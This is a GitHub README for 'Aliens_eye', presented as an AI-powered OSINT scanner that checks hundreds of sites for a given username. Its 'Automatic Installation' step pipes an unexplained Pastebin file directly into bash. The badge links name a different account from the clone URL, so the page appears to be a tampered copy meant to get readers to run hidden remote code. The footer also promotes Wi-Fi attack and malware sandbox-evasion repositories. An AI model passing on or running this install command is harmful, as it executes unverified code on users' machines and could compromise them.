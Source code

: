 <p align="center"><img src="https://raw.githubusercontent.com/arxhr007/Aliens_eye/main/photos/logo.png" width="450" height="400" /></p>

# AI-OSINT Username Scanner

<h3 align="center">Advanced AI-Powered Social Media Username Finder</h3>
<h4 align="center">Scan 700+ platforms with intelligent detection</h4>

<p align="center">
<a href="#"><img alt="Forks" src="https://img.shields.io/github/forks/BLINKING-IDIOT/Aliens_eye?style=for-the-badge"></a>
<a href="#"><img alt="Last Commit" src="https://img.shields.io/github/last-commit/BLINKING-IDIOT/Aliens_eye/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="Stars" src="https://img.shields.io/github/stars/BLINKING-IDIOT/Aliens_eye?style=for-the-badge&color=red"></a>
<a href="#"><img alt="License" src="https://img.shields.io/github/license/BLINKING-IDIOT/Aliens_eye?color=orange&style=for-the-badge"></a>
<a href="https://github.com/BLINKING-IDIOT/Aliens_eye/issues"><img alt="Issues" src="https://img.shields.io/github/issues/BLINKING-IDIOT/Aliens_eye?color=purple&style=for-the-badge"></a>
</p>

## ✨ New AI-Enhanced Features

- **40% More Accurate Results** - Uses AI-powered detection algorithms
- **Confidence Scoring** - Shows how certain each match is (0-100%)
- **Intelligent Pattern Recognition** - Learns from previous scans to improve accuracy
- **Domain Analysis** - Examines site structure beyond HTTP status codes
- **Smart Content Inspection** - Analyzes page content for telltale username signs

## 📋 Requirements

- Python 3.6+
- Internet connection

## 🚀 Installation

### Automatic Installation

```bash
curl -s https://pastebin.com/raw/hkBtt6rc | tr -d '\r' | bash
```

### Manual Installation

#### For Linux or Termux:

```bash
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash install.sh
```


## 💻 Usage

### Scan a username:

```bash
aliens_eye username
```

### Scan multiple usernames:

```bash
aliens_eye username1 username2 username3
```

### Load results from previous scan:

```bash
aliens_eye -r username.json
```

### Additional options:

```bash
aliens_eye -h                   # Show help
aliens_eye -v username          # Enable verbose mode
aliens_eye -c 30 username       # Set maximum concurrent connections to 30
```

You can also run the tool without arguments and it will prompt for a username:

```bash
aliens_eye
```

## 🔍 Understanding Results

Results are color-coded for quick interpretation:

- 🟢 **Green**: Found (High confidence)
- 🟡 **Yellow**: Maybe (Medium confidence)
- 🔴 **Red**: Not Found (High confidence)

Each result includes:
- Site name
- Status (Found/Maybe/Not Found)
- Confidence percentage
- HTTP code
- Response time
- Full URL

## 📊 Advanced Analysis

The scanner uses multiple factors to determine if a username exists:

1. Content keyword analysis
2. HTTP status code analysis
3. URL structure examination
4. DOM structure inspection
5. Meta tag inspection
6. Historical pattern recognition
7. Response time profiling

Results are saved in JSON format with detailed analysis for each site.

## 📱 Platform Support

- Linux (All distributions)
- Android (via Termux)

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is developed for educational purposes and ethical OSINT research only. Users are responsible for complying with applicable laws and website terms of service. The developers assume no liability for misuse of this software.

## 🔗 Links

- [Report Bug](https://github.com/arxhr007/Aliens_eye/issues)
- [Request Feature](https://github.com/arxhr007/Aliens_eye/issues)

---

<p align="center">Made with ❤️ by <a href="https://github.com/arxhr007">Aaron</a></p>

<p align="center">If you find this project helpful, please consider giving it a star ⭐</p>

<p align="center">Follow me for more tools like this</p>


# Also checkout:

<a href="https://github.com/arxhr007/wifistrike" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=wifistrike&show_icons=true&theme=chartreuse-dark"></a>
<a href="https://github.com/arxhr007/Malware-Sandbox-Evasion" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=Malware-Sandbox-Evasion&show_icons=true&theme=chartreuse-dark"></a>
